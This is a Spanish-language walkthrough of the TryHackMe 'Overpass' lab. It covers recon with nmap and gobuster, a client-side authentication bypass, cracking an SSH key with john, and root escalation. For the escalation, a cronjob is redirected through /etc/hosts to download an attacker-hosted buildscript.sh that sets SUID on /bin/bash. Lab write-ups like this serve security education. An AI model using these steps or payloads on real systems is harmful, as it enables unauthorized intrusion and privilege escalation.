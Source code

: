```yaml
---
title: Overpass
date: 2024-02-01 21:00 +/-0000
categories: TryHackMe Máquina
tags:
  - tryhackme
  - writeup
  - overpass
author: okud4
toc: true
---
```



La máquina que voy a resolver hoy es Overpass, una máquina de nivel fácil que nos ofrece de forma gratuita Tryhackme.

### RECONOCIMIENTO

Ejecuto el commando `curl <ip>` y me devuelve que es una pagina web, asi que me dirijo al navegador para analizarla.


![](/assets/img/capturas/overpass/overpass-web.png)

Tras navegar por ella descubro que es una empresa que ofrece un servicio de cifrado de contraseñas. Procedo a analizar el codigo fuente de la web y solo obtengo un comentario, sin importancia.

![](/assets/img/capturas/overpass/webcode.png)

Realizo un scanner de puertos con nmap para comprobar cuales pueden estar abiertos y si existe alguna vulnerabilidad.

```bash
nmap -sC -O -T 2 -sS <ip> -vvv -oN overpass.txt
```

![](/assets/img/capturas/overpass/nmapscan.png)

Me encuentro los puertos 22 y 80. Ahora voy a comprobar los directorios accesibles de la web con gobuster:

```bash
gobuster dir -u http://<ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o directories.txt
```

![](/assets/img/capturas/overpass/web-fuzz.png)

Como resultado, me dice que la ruta `/admin/`  es accesible y me dispongo a comprobarla.


![](/assets/img/capturas/overpass/web-admin.png)

Tras unas horas probando logearme usando Hydra y alguna SQLI pero sin obtener ningún resultado positivo, analizo si contiene archivos javascript. En **login.js** me encuentro con una vulnerabilidad [A2:2017-Broken Authentication](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)  

![](/assets/img/capturas/overpass/web-cookie.png)

Lo importante de el código se encuentra al fina y podemos explotar esta vulnerabilidad de dos formas distintas:
- modificando el código en la consola.
- creando una cookie.

Una vez modifico el JS refresco la página y obtengo las credenciales para poder acceder por ssh al servidor.

![](/assets/img/capturas/overpass/web-rsa-login.png)

Guardo la clave RSA en un archivo llamado **id_rsa**. Ahora necesito obtener la clave para poder acceder a el servidor, iré paso a paso:
1. Con ssh2jhon para darle formato a la clave: `ssh2john id_rsa > id_rsa.hashes`
2. Con john, analizo la clave en busca de la contraseña: `john --wordlist=/usr/share/wordlists/john.lst --format=SSH id_rsa.hashes`

	![](/assets/img/capturas/overpass/rsa-password.png)

### EXPLOTACIÓN
Ahora me dispongo a conectarme por ssh al servidor, pero me encuentro el siguiente problema...

![](/assets/img/capturas/overpass/ssh-bad-login.png)

Para poder logear le doy permisos a el archivo **id_rsa** y me conecto por ssh a el servidor, con las credenciales obtenidas anteriormente.

![](/assets/img/capturas/overpass/ssh-login.png)

Dentro de el servidor, busco los archivos **.txt** con el siguiente comando:
```bash
find / -type f -name '*.txt' 2>/dev/null
```

Me devuelve la primera flag en el archivo **user.txt**

### ESCALADA DE PRIVILEGIOS

Ahora busco los cronjobs para ver si obtengo un vector de ataque... usando el comando `cat /etc/crontab` me arroja como resultado que se ejecuta un cronjob con el archivo **buildscript.sh** el cual podemos explotar. 

![](/assets/img/capturas/overpass/cronjobs.png)

Llegado a este punto analizo la situacion:
- Si me fijo en el cronjob, ejecuta la descarga de un archivo llamado **buildscript.sh** de la ruta `overpass.thm/downloads/src` 
Entonces... como atacar a la máquina? para ello realizo los siguientes pasos
1. Edito el archivo `/etc/hosts/` para redirigir la conexion a mi maquina atacante, cambando la direccion ip.
2. Creo una falsa ruta: `~/downloads/src/` y dentro creo un archillo llamado **buildscript.sh** que contiene un comando para poder ejecutar **bash** con privilegio de superusuario de forma temporal: `echo '#!/bin/bash \n chmod +s /bin/bash' > buildscript.sh` 
3. Creo un servidor http con el puerto 80 para que la maquina victima se pueda conectar a mi máquina atacante y descargue asi el archivo.
![](/assets/img/capturas/overpass/multitask.png)

![](/assets/img/capturas/overpass/pyserver.png)

Una vez descarga el archivo de mi servidor, accedo a la ruta **/dev/shm/** y ejecuto el comando `/bin/bash -p` para iniciar una nueva instancia del shell Bash en modo privileged.

El directorio `/dev/shm` es una forma de acceder a esta memoria compartida como si fuera un sistema de archivos. Los archivos que se crean dentro de `/dev/shm` son en realidad bloques de memoria compartida que pueden set utilizados por los procesos del sistema.

Esto puede set útil para situaciones en las que varios procesos necesitan compartir datos de forma rápida y eficiente, como en aplicaciones de alto rendimiento, servidores web, bases de datos en memoria, etc.

![](/assets/img/capturas/overpass/rooting.png)


